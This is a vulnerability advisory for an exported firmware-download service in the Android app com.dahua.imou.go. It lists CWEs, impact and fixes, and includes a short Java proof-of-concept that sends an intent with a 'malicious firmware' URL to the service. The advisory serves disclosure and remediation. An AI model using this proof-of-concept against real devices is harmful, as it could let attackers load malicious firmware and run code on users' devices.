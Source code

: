 The`com.oneed.dvr.service.DownloadFirmwareService` component within the Android app `com.dahua.imou.go` possesses a vulnerability. An remote attacker(via a malicious app can control the URL path of firmware downloads, potentially leading to arbitrary code execution or a compromised device state.

### Details

- **Affected Component**: `com.oneed.dvr.service.DownloadFirmwareService`
- **Affected Application**: `com.dahua.imou.go`
- **Vulnerability Type**: Improper Input Validation / Arbitrary File Write
- CWE-20: Improper Input Validation - This weakness describes a failure to sanitize, filter, or verify data or input.
- CWE-494: Download of Code Without Integrity Check - This weakness points to systems that download code without ensuring the authenticity or source integrity.

### Description

The `com.oneed.dvr.service.DownloadFirmwareService` in the app `com.dahua.imou.go` retrieves a firmware download URL from incoming intents. The service does not validate the origin or authenticity of this intent, nor does it verify the integrity of the downloaded content. This vulnerability exposes devices to:

1. Attacker-controlled intents with malicious firmware URLs.
2. Potential downloads, storage, and execution of malicious firmware.

### Proof of Concept (PoC)

#### Java Android PoC Sample Code:

```java

public class MaliciousActivity extends AppCompatActivity {
   
    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_malicious);
       
        // Intent targeting the vulnerable service
        Intent exploitIntent = new Intent();
        exploitIntent.setComponent(new ComponentName("com.dahua.imou.go", "com.oneed.dvr.service.DownloadFirmwareService"));
       
        // Setting malicious firmware URL
        Uri maliciousURL = Uri.parse("/malicious-firmware.bin");
        exploitIntent.setData(maliciousURL);
       
        // Send the intent to exploit the vulnerability
        startService(exploitIntent);
    }
}
```

### Impact

- Arbitrary code execution: If the malicious firmware is loaded and executed, it allows an attacker to execute arbitrary code on the device.
- Modified device behavior: An attacker can change the behavior of the device, leading to potential data exposure or unauthorized device actions.

### Recommendation

1. Implement stringent input validation to ensure only valid firmware URLs are accepted.
2. Utilize cryptographic checks (like signature verification) to ascertain the integrity of downloaded firmware.
3. Set intent permissions or restrict the exported nature of the service, limiting its accessibility.

### References

- [CWE-20: Improper Input Validation](https://cwe.mitre.org/data/definitions/20.html)
- [CWE-494: Download of Code Without Integrity Check](https://cwe.mitre.org/data/definitions/494.html)
